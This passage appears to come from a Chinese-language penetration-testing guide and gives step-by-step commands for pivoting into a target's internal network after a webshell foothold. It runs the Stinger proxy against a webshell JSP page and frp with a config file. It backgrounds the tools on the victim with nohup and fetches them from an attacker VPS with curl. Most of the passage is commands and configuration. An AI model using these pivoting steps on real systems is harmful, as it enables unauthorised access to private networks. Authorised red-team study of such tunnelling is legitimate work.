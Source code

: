 ```
Linux:
chmod +x /tmp/stinger_server
nohup /tmp/stinger_server>/dev/null nohup.out &

Windows: start D:/XXX/stinger_server.exe
```

3.VPS服务端启动监听

```
./stinger_client -w http://aaa.com/proxy.jsp -l 0.0.0.0 -p 60000
```

以上操作成功后，VPS会监听60000端口，接下来直接配置好Proxifier就可以访问目标内网了。

特别注意：这个代理也不是很稳定，有时候会断开(Wrong data)。遇到断开情况后，手动kill stinger_server进程 再启动，最后重启VPS服务端stinger_client即可

###### 场景四 TCP出网-socks代理

**[frp](https://github.com/fatedier/frp)**

搭建步骤：
1.VPS运行服务端

```
./frps -c frps.ini
```

注：建议用Screen将frp挂起到后台，Screen挂起程序参考[用screen 在后台运行程序 - 简书](https://www.jianshu.com/p/b24f597c0561)

frps.ini内容：

```
[common]
bind_port = 8080
tls_only = true
tcp_mux = true
privilege_token = token123
kcp_bind_port = 8080
```

2.使用VPS将frpc frpc.ini上传到主机tmp目录，然后运行

```
Linux:
chmod +x /tmp/frpc-x86
nohup /tmp/frpc-x86 -c /tmpfrpc.ini>/dev/null nohup.out &

Windows
frpc -c frpc.ini
```

注：有时候用Webshell管理工具会上传失败或上传文件不完整，可以cd到frp目录，在vps使用 `python -m SimpleHTTPServer 80` 启动一个webserver，然后在客户端使用 `curl http://vpsip/frpc`下载文件。

以上操作成功后，VPS控制台会有输出，然后VPS会启动一个10001端口，接下来直接配置好Proxifier就可以访问目标内网了。

Proxifier使用参考：[Proxifier Socks5 代理（内网访问、远程办公）](https://blog.csdn.net/u013600314/article/details/106276126/)
